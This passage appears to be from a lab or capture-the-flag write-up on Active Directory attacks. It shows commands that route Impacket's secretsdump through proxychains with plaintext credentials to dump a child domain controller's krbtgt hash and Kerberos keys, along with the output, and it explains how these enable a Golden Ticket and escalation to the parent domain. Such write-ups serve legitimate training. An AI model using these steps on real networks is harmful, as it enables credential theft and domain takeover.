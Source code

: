 <p class="indent-paragraph">
  With a stable foothold and access to internal systems, the next step was to prepare for lateral movement and domain privilege escalation. Hostnames and domain information gathered during earlier enumeration were added to the attacker’s <code>/etc/hosts</code> file to ensure accurate name resolution for SMB and Kerberos operations.
</p>

```
~$ sudo nano /etc/hosts

192.168.98.2 dc01.warfare.corp
192.168.98.120 cdc.child.warfare.corp
```

### 🎫 krbtgt Hash Dump

<p class="indent-paragraph">
  This hosts file update ensured seamless communication and Kerberos authentication with both parent and child domain controllers via fully qualified hostnames. At this point, SYSTEM–level access on the Child Domain Controller <code>192.168.98.120</code> enabled extraction of critical credential material. The first objective was to retrieve the <code>krbtgt</code> NTLM hash, which would later facilitate the creation of a Golden Ticket for unrestricted impersonation within the child—and ultimately the parent—domain.
</p>

```
~$ proxychains /root/.local/bin/secretdump.py -debug child/corpmngr:'User4&*&*'@cdc.child.warfare.corp -just-dc-user 'child\krbtgt'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[+] Impacket Library Installation Path: /root/.local/share/pipx/venvs/impacket/lib/python3.13/site-packages/impacket
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
[+] Calling DRScrackNames for child\krbtgt
[+] Calling DRSGetNCChanges for {1c0a5a45-4b61-4bdd-adfc-92982f35601d}
[+] Entering NTDSHashes.__decryptHash
[+] Decrypting hash for user: CN=krbtgt,CN=Users,DC=child,DC=warfare,DC=corp
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:e57dd34c1871b7a23fb17a77dec9b900:::
[+] Leaving NTDSHashes.__decryptHash
[+] Entering NTDSHashes.__decryptSupplementalInfo
[+] Entering NTDSHashes.__decryptSupplementalInfo
[*] Kerberos keys grabbed
krbtgt:aes256-cts-hmac-sha1-96:ad8c273289e4c511b4363c43c08f9a5aff06f8fe002c10ab1031da11152611b2
krbtgt:aes128-cts-hmac-sha1-96:806d6ea798a9626d3ad00516dd6968b5
krbtgt:des-cbc-md5:ba0b49b6b6455885
[*] Cleaning up ...
```

<p class="indent-paragraph">
  With the krbtgt <code>NTLM hash</code> and <code>AES256 key</code> extracted from the Child Domain Controller (CDC), it is possible to craft a <code>Golden Ticket</code> that impersonates any user in the child domain, including high-privilege accounts. This forged ticket can then be used to access resources or perform lateral movement into the Parent Domain Controller (DC01) according to the established trust relationship.
</p>
